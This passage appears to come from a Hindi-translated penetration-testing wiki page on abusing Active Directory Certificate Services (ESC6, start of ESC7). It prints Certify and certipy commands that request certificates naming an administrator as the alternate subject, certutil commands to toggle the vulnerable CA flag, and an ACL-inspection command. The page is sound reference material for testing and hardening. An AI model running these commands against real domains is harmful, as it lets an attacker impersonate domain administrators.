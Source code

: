 ```bash
# Detect vulnerabilities, including this one
Certify.exe find

# Exploit vulnerability
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
```
इन सेटिंग्स को बदलने के लिए, माना जाए कि किसी के पास **डोमेन प्रशासनिक** अधिकार हैं या समकक्ष, तो निम्नलिखित कमांड को किसी भी कार्यस्थल से निष्पादित किया जा सकता है:
```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```
इस कॉन्फ़िगरेशन को अपने वातावरण से अक्षम करने के लिए, ध्वज को हटा दिया जा सकता है:
```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
```
{% hint style="warning" %}
मई 2022 सुरक्षा अपडेट के बाद, नई जारी की गई **प्रमाणपत्र** में एक **सुरक्षा एक्सटेंशन** शामिल होगा जो **अनुरोधकर्ता की `objectSid` गुणवत्ता** को शामिल करेगा। ESC1 के लिए, यह SID निर्दिष्ट SAN से प्राप्त किया जाता है। हालांकि, **ESC6** के लिए, SID **अनुरोधकर्ता की `objectSid`** को प्रतिबिम्बित करता है, SAN नहीं।\
ESC6 का शोषण करने के लिए, ESC10 (कमजोर प्रमाणपत्र मैपिंग) के लिए प्रणाली को ESC10 के लिए संवेदनशील होना आवश्यक है, जो **नए सुरक्षा एक्सटेंशन** के ऊपर **SAN को प्राथमिकता देता है**।
{% endhint %}

## वंशावली प्रमाणपत्र प्राधिकरण एक्सेस नियंत्रण - ESC7
### हमला 1

#### स्पष्टीकरण

सर्टिफिकेट प्राधिकरण के लिए एक्सेस नियंत्रण को सीए क्रियाएँ नियंत्रित करती हैं। ये अनुमतियाँ `certsrv.msc` तक पहुँचकर देखी जा सकती हैं, एक सीए पर राइट-क्लिक करके, गुणों का चयन करके, और फिर सुरक्षा टैब पर जाकर। इसके अतिरिक्त, अनुमतियाँ PSPKI मॉड्यूल का उपयोग करके जैसे कमांड के साथ जांची जा सकती हैं:
```bash
Get-CertificationAuthority -ComputerName dc.domain.local | Get-CertificationAuthorityAcl | select -expand Access
```